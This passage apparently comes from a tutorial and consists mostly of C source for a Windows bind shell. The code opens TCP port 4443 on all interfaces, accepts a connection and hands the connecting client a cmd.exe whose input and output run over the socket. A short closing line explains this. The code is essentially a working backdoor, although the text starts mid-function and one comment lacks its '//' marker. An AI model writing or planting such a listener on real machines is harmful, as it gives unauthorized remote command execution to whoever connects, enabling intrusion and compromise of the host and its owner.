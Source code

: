```C 
    char Process[] = "cmd.exe";
    //WSAStartup is needed for socket 
	WSAStartup(MAKEWORD(2, 2), &wsaData);
    //We can use socket() either 
    //so INET TCP socket 
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    port 4443 on all interfaces
	hax.sin_family = AF_INET;
	hax.sin_port = htons(4443);
	hax.sin_addr.s_addr = inet_addr("0.0.0.0");
    //bind the socket to the address:port 
    if(bind(s1,(SOCKADDR*)&hax, sizeof(hax)) == SOCKET_ERROR){
		    printf("error %d \n", WSAGetLastError());
			closesocket(s1);
			WSACleanup();
    }
    //now the port will be open 
	else if(listen(s1,10) == SOCKET_ERROR){
		    printf("error %d \n", WSAGetLastError());
			closesocket(s1);
			WSACleanup();
    }
    else{
        //we set up a new socket here
        s2 = accept(s1, NULL, NULL);

        // we'll  use s2 to SEND data ourselves to the client
        printf("connecting \n");
        // we get the processinfo struct ready
        memset(&sui, 0, sizeof(sui));
        sui.cb = sizeof(sui);
        sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        // this is the key concept here, all the input/output of the interaction with this proces will go from/to client socket
        sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) s2;
        // we create the socket with that data
        CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
        // we don't want the program to end after this, we want to keep the connection going until cmd.exe finishes
        WaitForSingleObject(pi.hProcess, INFINITE);
        // house cleaning
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        closesocket(s1);
        closesocket(s2);
        WSACleanup();
        printf("shell closed \n");
    }

}

int main(int argc, char* argv[]){

    printf("bind shell going on: \n");
    doShell();

}
```
So the program will open port 4443 TCP for listening on all interfaces, will accept connections there and prompt a cmd.exe shell.
